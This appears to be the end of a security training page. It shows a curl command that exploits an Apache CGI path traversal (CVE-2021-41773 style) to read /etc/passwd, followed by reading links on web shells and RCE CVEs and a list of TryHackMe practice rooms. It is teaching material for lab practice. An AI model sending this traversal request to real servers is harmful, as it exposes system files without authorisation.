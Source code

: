 ```
curl http://<IP>:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

<img src="../media/path_traversal.png" width=600 height=250>

## Further reading

1. [Shodan API](https://developer.shodan.io/api/clients)

2. [Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

3. [How WSO2 CVE-2022-29464 works](https://github.com/tufanturhan/wso2-rce-cve-2022-29464)

4. [Apache Spark CVE-2022-33891](https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/)

5. [Apache CVE-2021-41773](https://www.picussecurity.com/resource/blog/simulate-apache-cve-2021-41773-exploits-vulnerability)

## Activities

1. [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

2. [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

3. [Dav](https://tryhackme.com/room/bsidesgtdav)

4. [Jack of All Trades](https://tryhackme.com/room/jackofalltrades)

5. [Smag Grotto](https://tryhackme.com/room/smaggrotto)

6. [Overpass](https://tryhackme.com/room/overpass)

7. [Madness](https://tryhackme.com/room/madness)
